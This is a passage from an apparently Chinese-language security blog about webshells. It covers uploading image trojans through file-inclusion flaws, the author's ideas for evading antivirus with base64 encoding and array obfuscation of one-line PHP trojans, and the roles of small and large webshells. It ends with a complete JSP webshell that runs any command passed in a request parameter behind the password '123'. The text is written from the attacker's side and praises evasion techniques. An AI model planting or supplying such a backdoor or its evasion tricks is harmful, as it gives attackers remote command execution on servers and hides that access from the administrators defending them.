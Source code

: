 ![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508174303485.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508174246769.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

至此，我们成功结合文件包含漏洞，在只能上传图片的文件上传功能处上传图片木马并生成一句话木马。最后附上一篇博文，介绍了图片木马+解析漏洞的利用：[PHP图片木马](https://friday-go.cc/PHP%E5%9B%BE%E7%89%87%E6%9C%A8%E9%A9%AC)。

### 木马免杀

就算木马能正常运行，那么过段时间会不会被管理员杀掉？如何免杀？上面虽然木马上传成功了，但是只要管理员一杀毒，全部都能杀出来。而且，还会很明确的说这是后门。因此，作为攻击者就得会各种免杀技巧。防御者的防御很简单，什么时候哪个论坛爆出新的免杀技巧，安全人员立马将这玩意儿放入黑名单，那么这种免杀技巧就失效了。所以，攻击者得不断创新，发明新的免杀技巧。

【**免杀思路**】：

1、将源代码进行再次编码。  
 2、将那一句话木马进行base64编码，存放在"乱七八糟"的代码中，直接看图：  
 3、还是一句话木马，进行变形，只不过，这次的变形是在数组中键值对变形。很强。  
   
 不得不说，免杀的思路真是越猥琐，越好。研究起来非常有意思。以后等我渗透熟练了，会好好研究一下PHP代码的各种免杀技巧。很好玩，思路很猥琐。

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20190207210022815.png)

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20190207210041617.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20190207210110393.png)

## 小马和大马

**小马和大马都是网页类型中的一种后门，是通过用来控制网站权限的**，那**最主要的区别就是小马是用来上传大马的**。通过小马上传大马，这时候有个疑问了，那不是多此一举了，为什么要用小马来上传大马，而干嘛不直接上传大马用好了。其实这里是因为小马体积小，有比大马更强的隐蔽优势，而且有针对文件大小上传限制的漏洞，所以才有小马，小马也通常用来做留备用后门等。

### 网页小马

小马体积非常小，只有2KB那么大，隐蔽性也非常的好，因为小马的作用很简单，就是一个上传功能，就没有其它的了，它的作用仅仅是用来上传文件，所以也能过一些安全扫描。小马是为了方便上传大马的，因为很多漏洞做了上传限制，大马上传不了，所以就只能先上传小马，再接着通过小马上传大马了。小马还可以通过与图片合成一起通过IIS漏洞来运行。

Java语言编写的后台咱们使用JSP木马，与前面的一句话木马不同，菜刀中JSP木马较长，以下是一个简单的JSP小马：

```text
<%
    if("123".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
123456789101112
```
